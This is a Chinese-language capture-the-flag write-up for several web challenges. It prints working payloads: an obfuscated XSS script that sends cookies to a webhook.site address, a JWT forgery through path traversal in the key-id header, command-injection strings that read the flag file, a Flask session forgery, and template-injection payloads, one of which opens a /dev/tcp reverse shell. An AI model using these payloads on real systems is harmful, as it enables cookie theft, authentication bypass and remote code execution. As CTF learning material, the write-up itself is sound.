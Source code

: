 
# web
### b01ler-ad
post `/review`接口,会有一个浏览器来访问http://localhost:3000/admin/view?content?=${content}
,发送一个html文档,

过滤了' " \` 使用String.fromCharCode绕过
 应该是xss读cookie,就是直接发个html,fetch,注意加个no-cors,不然无法跨域

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>
<script>
eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,97,50,48,99,57,102,57,100,45,98,53,48,54,45,52,97,56,97,45,57,51,100,97,45,99,101,53,52,102,100,56,55,100,48,54,97,39,44,123,109,101,116,104,111,100,58,39,80,79,83,84,39,44,109,111,100,101,58,39,110,111,45,99,111,114,115,39,44,98,111,100,121,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41))</script>

</body>
</html>
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240413232240.png)

### imagehost
flag在上传的png里,登录为admin即可
`FLAG_FILENAME="$(python3 -c 'import uuid;print(uuid.uuid4())').png"`

Route("/", home),   主页,jwt鉴权,给出当前用户所有上传的照片
Route("/login", login_get), 返回login.html,jinjia2渲染无ssti
Route("/login", login, methods=["POST"]),    传入用户名/密码,fetchone,设置jwt里userid和admin
Route("/register", register_get),             register.html
Route("/register", register, methods=["POST"]),   insert,参数化
Route("/logout", logout),                  
Route("/", upload, methods=["POST"]),        上传文件,
Route("/view/{filename}", view),   
```python
async def view(request):
	filename = request.path_params["filename"]
	
	path = UPLOAD_FOLDER.joinpath("a").with_name(filename)
	if not path.exists():
		return PlainTextResponse("Image not found", 404)
	
	return FileResponse(UPLOAD_FOLDER.joinpath("a").with_name(filename))
```

需要伪造admin用户,使用的是非对称加密,且公钥(decode)的文件位置可指定,能否通过upload上传公钥文件,,且pem还要符合png的标准

我为我的无知道歉,pem的格式是这样的
```pem
-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCT96Ir3DM+PtlpHqyI8YOBOKyAexIO5RMpwUgUndIRBs72g0Ga
Tyy8yxKbMCaJ2nLQBC9D6cOp8UzHBeirsk0rYETGQBFqHzOvjod3VjE+9eRMJGl7
oohwHUzqHUOoNDKLvz2HuoVtRHawfw4EHCx9OTNyWct7jjg9VV0EEz9IdQIDAQAB
AoGAbFR3kZ70kVTYPYLslJIlUj0Y5jO0Y91Iq2BLknR9MGQIsCgmpn/i5BHU/HND
M9gQCMWXiSQjUU9Ng8SKtPGkVsl22mNZkRb69Ca1083pI2HxwL3dhEXl+VLD37w+
Cg+9glWnsjdUFy8WoiTun0yWJHiXKN2VRCv759+vJS6M150CQQDDQt2HoKEKVsU1
RLyRpr93Idtmzplro48zsvsmuCZJyNnpn4VYz7BFvu7SDX4Xkz1dr9gELnTvnQY3
rBWNQOXzAkEAwf6jpDFa+JL9/CLLTxuwn51Or8C4zcd1LjrmsqWz8SYDnuAZo4Vg
A2MlVAYpbk1XfVWzGPxralsa9+Zrl9yp9wJATmQe2h+T57m0TNF+vx7pyWNPWTPi
hkNQ75mQmRffT0oSqmd/uosPIsEn0i7Wi5JyVZWOLQeVrMkmwN0WffIrHwJBAIM2
4Sil2YpYokJwpmOTrxvHIvntuRI23yOt42zid5ucwsYrfiwEgrTH0u/KWyuoVI0J
8mHsGhuOE+epiwzkzHECQCN3G0+GcCfE6eYF5yW19n7QoK3sxU5HbwXKoAeXgM0z
TEiGjWVM5w+Ea21IUsE2O2CIG1CePqUI2DSujYCo7Oc=
-----END RSA PRIVATE KEY-----
```
或者说view路由读取公钥文件?

实践出真知!!!,只要不破坏pem文件格式也可以解析
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414025437.png)

类似于图片马的制作,在一个图片中间把公钥加上去
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414035316.png)


照着原来的代码写一个加密,注意在linux上跑...
```python
import jwt
from pathlib import Path


payload={"user_id":1,"admin":True}

def encode(payload, public_key: Path, private_key: Path):
        key = private_key.read_bytes()
        return jwt.encode(payload=payload, key=key, algorithm="RS256", headers={"kid": str(public_key)})
print(encode(payload=payload,public_key=Path('../../../../../../uploads/2b170008-668c-4810-9b38-3815912a675b.png'),private_key=Path('/tmp/private.pem')))
```

output`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uL3VwbG9hZHMvMmIxNzAwMDgtNjY4Yy00ODEwLTliMzgtMzgxNTkxMmE2NzViLnBuZyJ9.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6dHJ1ZX0.fBuVTPsTuxKvVfpTUsi8qcDt07TqNZaORzH936DSgCT_xn5AtblipxDWKIHCbRRQyb1E2fwCQI7S9ORYNEb71PCrAHSop2akS084yIssIyVM3JGCVKpNrOvt-ta6Ua3TemAcpuI3Jx8jE_HTIot0rdBahS_DVXuZ8-NHn2YqIOo`

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414034815.png)



### 3-city-elves-writeups
命令注入,过滤了很多关键字

通过变量替换,先得到echo,使用base32 读取flag.png然后写入到静态文件style.css里
本地可以,远程不行
```json
{"content":"1\"';b=`b=ch;e${b}o 'F4FA====' |base32 -d`;a=ch;e${a}o 'aaaa'>> as*${b}sty* ;'\""}
```

```json
//变量b为/,然后base32读取根目录flag.png
{"content":"1\"';b=`b=ch;e${b}o 'F4FA====' |base32 -d`;base32 ${b}proc${b}self${b}cmdline >> as*${b}sty* ;'\""}
```
sh不支持多级目录通配符...

```json
{"content":"1\"';e=se;b=`b=ch;e${b}o 'F4FA====' |base32 -d`;base32 ${b}flag.png > as${e}ts${b}style ;'\""}
```

然后访问&下载/static/style 
`base32 -d style >flag.png`

![flag.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414174123.png)



`bctf{Lucky_you_I_did_not_code_this_stuff_in_Ruby_lasudkjklhdsfkhjkae}`

### pwnhub
#ssti
可以上传笔记内容,存在ssti
```python
@app.get('/view/<id>')
@login_required
def view(id):
    if (users[current_user.name].verification != V.admin):
        return render_template_string('This feature is still in development, please come back later.')
    content = next((post for post in current_user.posts if id in post), None)
    if not content:
        return render_template_string('Post not found')
    content = content.get(id, '')
    if any(char in content for char in INVALID):
        return render_template_string(f'1{"".join("33" for _ in range(len(content)))}7 detected')
    return render_template_string(f"Post contents here: {content[:250]}")
```
但是需要先是admin
```python
users = {
    "admin": User("admin", ''.join(choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(32)), V.admin),
    "pwnlyfans": User("pwnlyfans", ''.join(choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for _ in range(32)), V.user)
}
```
看到secrets为`app.secret_key = hex(getrandbits(20))`,爆破

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414212946.png)

`0xbbe18`

`flask-unsign -s --secret "0xbbe18" --cookie "{'_fresh': False, '_id': '09120b7e8cf2ee71c6a5c874479193608d3eba9822f44d9341f44a6076456bd081bb8ad8719f74f2fb9deb2e7b8ac8c6b4b39cd30a83c082b852a0b96a4820ab', '_user_id': 'admin'}" --no-literal-eval`

得到admin的session
```
.eJwlzjEOwjAMQNG7ZGZwHDe2e5nKjh1RCRhaMSHuTiWmL_3pfco2jzzvZZ32OPNWtj3KWkArgnPKmJjJdXRbhjARa9XWQaKlmwriJAptVK9aB-60dA-Q6i4WwlUn08TpGumYfN0hozt50xENTNoAQZcFDVy7kSCYlwvyPvP4ayye-6t8f4VbMTY.ZhvbZQ.-GnCt5UVviTjN6PrEodMeBbKO3I
```

需要绕过ssti的长度限制
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414214310.png)

不需要绕,是先append然后根据len来显示错误消息,可以自己计算post_id
黑名单`INVALID = ["{{", "}}", ".", "_", "[", "]","\\", "x"]`

限制长度为255,

`{{cycler.__init__.__globals__.os.popen('id').read()}}`

`url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()`

ssti不下去了,

---
```bash
{%with a=request|attr("args")|attr("get")%}{%for y in(dict,)|map("attr",a("a"))|map("attr",a("b"))|first()()%}{%if "Pop"in(y,)|map("attr",a("c"))|first%}{%print(y("bash -c 'sh -i>& /dev/tcp/ATTACKR_IP_IN_DECIMAL/80 0>&1'",shell=1))%}{%endif%}{%endfor%}{%endwith%}
```

`?a=__base__&b=__subclasses__&c=__name__`



---
```bash
{%with a=session|first%}{%print(request|attr("application")|attr(a+"globals"+a))|attr(a+"getitem"+a)("json")|attr("codecs")|attr("sys")|attr("modules")|attr(a+"getitem"+a)("os")|attr("popen")("cat /*")|attr("read")()%}{%endwith%}
```


### b01lers_casino

```python
@app.route("/grab_flag", methods = ["GET"])
def grab_flag():
    jwt_token = request.cookies.get('jwt')
    if jwt_token == None or not is_valid_token(jwt_token, app.config['SECRET_KEY']):
        return jsonify({'error': 'Unauthorized'}), 403
    payload = decode_token(jwt_token, app.config["SECRET_KEY"])
    if (payload["username"] != "admin"):
        return jsonify({'error': 'Unauthorized'}), 403
    return jsonify({"flag": app.config["FLAG"]})
```

还是需要伪造为admin,

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-13   22:21